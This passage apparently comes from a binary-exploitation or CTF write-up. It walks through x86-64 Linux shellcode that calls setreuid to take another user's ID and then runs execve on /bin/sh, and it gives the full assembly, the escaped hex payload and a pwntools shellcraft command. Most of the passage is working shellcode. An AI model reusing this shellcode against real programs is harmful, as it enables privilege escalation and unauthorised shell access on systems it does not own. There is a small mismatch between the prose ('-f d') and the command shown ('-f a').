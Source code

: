 setreuid()'s rax number is 113 ( 0x71in hex).  And it takes its two arguments from the rdi and rsi registers.

Here was my assembly code in the end:

```assembly
xor    rdi,rdi			<------ set the rdi to 0
xor    rax,rax		
xor    rsi, rsi    		<------ set the rsi to 0
mov    si, 1002  	    <------ put the value 1002 in the lower bits of the rsi
mov    di, 1002			<------ put the value 1002 in the lower bits of the rdi
mov    al,0x71			<------ put the setruid function in the al register      
syscall					<------ call the function.
xor    rdx,rdx
movabs rbx,0x68732f6e69622fff
shr    rbx,0x8
push   rbx
mov    rdi,rsp
xor    rax,rax
push   rax
push   rdi
mov    rsi,rsp
mov    al,0x3b
syscall
push   0x1
pop    rdi
push   0x3c
pop    rax
syscall
```

And I converted it to hex using [Online Assembly](https://defuse.ca/online-x86-assembler.htm) .

```shell
\x48\x31\xFF\x48\x31\xC0\x48\x31\xF6\x66\xBE\xEA\x03\x66\xBF\xEA\x03\xB0\x71\x0F\x05\x48\x31\xD2\x48\xBB\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x48\x31\xC0\x50\x57\x48\x89\xE6\xB0\x3B\x0F\x05\x6A\x01\x5F\x6A\x3C\x58\x0F\x05
```

But if you don't want to bother with trying to understand assembly, there is a much easier way.

## With Pwntools

You can use [pwntools](http://docs.pwntools.com/en/stable/) and its shellcraft module to generate shellcodes for you. We already have a working shell code to get a shell, so we just need to add to it the setreuid() part.

Install pwntools following the instruction on their site. Then run:

```bash
┌─[✗]─[l1ge@parrot]─[~]
└──╼$pwn shellcraft -f a amd64.linux.setreuid
```

`-f d` sets the format to "escaped".  You can set `-f a` to look at the assembly version
